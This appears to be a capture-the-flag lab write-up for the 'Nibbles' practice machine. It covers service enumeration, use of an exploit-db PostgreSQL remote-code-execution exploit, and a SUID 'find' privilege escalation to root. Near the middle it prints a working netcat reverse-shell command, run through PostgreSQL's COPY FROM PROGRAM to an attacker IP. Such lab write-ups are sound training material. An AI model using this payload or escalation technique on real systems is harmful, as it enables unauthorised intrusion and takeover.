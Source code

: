 # Nibbles

Machine: [Nibbles](https://portal.offensive-security.com/labs/practice)\
Difficulty: Get to work



## Enumeration

What operating system is on this machine? Linux
What ports/services are on running on this machine?
![Results!](screenshots/1.png)

I ran a dirbuster scan since there is a webserver running on port 80, but I did not find anything of interest based on the results and reviewing the page source for the pages I was able to access. Next, I used nmap scripts to do smb enumeration but I did not get much information back. Lastly, I search the postgres version and discover that there is a RCE with the version on this machine. I downloaded the exploit [here](https://www.exploit-db.com/exploits/50847).\

After figuring out how to run the exploit, I tried a few things to get a reverse shell. I tried to execute bash and python to connect back to my machine, I tried to host a reverse shell on my computer and then retrieve it using wget on the victim machine (this was not successful). I found a couple of other peoples scripts on github that are supposed to exploit this vulnerability, but I had issues with getting those to work. Despite this I was still able to get the local/user flag just from using the exploit on exploit db...I just could not figure out how to get the reverse shell. 

![Results!](screenshots/2.png)

Once I got the user flag, I looked online and found that there must be firewall settings that are restricting outbound connections. Port 80 is allowed and I was able to get a reverse shell using this command. I did have to login to the postgres service to do this but it still might be possible by using the script provided by exploit db.
<pre> COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.57 80 >/tmp/f'</pre> 

https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/authenticated-arbitrary-command-execution-on-postgresql-9-3/


![Results!](screenshots/3.png)
![Results!](screenshots/4.png)


## Flags
### Local/User
I was able to get this flag just from the exploit from exploit-db.
![Results!](screenshots/5.png)


### Root
I ran some commands that I normally use to search for common things prior to uploading something like linpeas. I see that the find binary has the SUID set, so we can just run the find command to escalate our privileges. So the easiest way to do this is just create a test file, and then use the find command to search for it. I created a file in /tmp and then used the find command. This allowed me to run find as root as get the root flag.

![Results!](screenshots/6.png)

